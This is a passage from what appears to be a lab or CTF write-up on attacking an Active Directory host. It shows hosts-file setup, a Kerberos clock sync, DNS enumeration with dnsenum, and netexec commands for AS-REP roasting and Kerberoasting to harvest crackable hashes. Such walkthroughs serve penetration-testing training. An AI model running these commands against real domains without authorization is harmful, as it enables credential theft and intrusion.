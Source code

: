 -   **Updating** `/etc/hosts` **for DNS and LDAP Queries**:
    -   I update my `/etc/hosts` file to enable tools like [kerbrute](https://github.com/ropnop/kerbrute) for user enumeration and other tools that require DNS or LDAP for queries:
        ```shell
        sudo echo "$box   $domain $machine.$domain $machine" | sudo tee -a /etc/hosts
        ```


#### Syncing Clocks for Kerberos Exploitation: {#syncing-clocks-for-kerberos-exploitation}

-   Since Kerberos is enabled on this host, it's best practice to sync our clock with the host’s. This helps avoid issues from clock misalignment, which can cause false negatives in Kerberos exploitation attempts.
    ```shell
    sudo ntpdate -s $domain
    ```

    -   +Note+: I am doing this now as we have the DNS name etc.


### DNS `53`: {#dns-53}

-   **Using dnsenum to enumerate DNS entries**:
    ```shell
    dnsenum -r --dnsserver $box --enum -p 0 -s 0 -f ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt $domain
    ```

    -   {{< figure src="/ox-hugo/2025-01-13-110410_.png" >}}
    -   Nothing out of the ordinary.


### Kerberos `88`: {#kerberos-88}


#### Using netexec or impacket for ASReproasting: {#using-netexec-or-impacket-for-asreproasting}

-   **We should always try and asreproast with a null/guest session as it can lead to an easy win**:
    ```shell
    netexec ldap $box -u $user -p $pass --asreproast asrep.txt
    ```

    -   {{< figure src="/ox-hugo/2025-01-13-081938_.png" >}}
    -   Nothing found.


#### Using netexec for Kerberoasting: {#using-netexec-for-kerberoasting}

-   **As we have creds we can kerberoast**:
    ```shell
    netexec ldap $box -u $user -p $pass --kerberoast kerb.txt

    ```
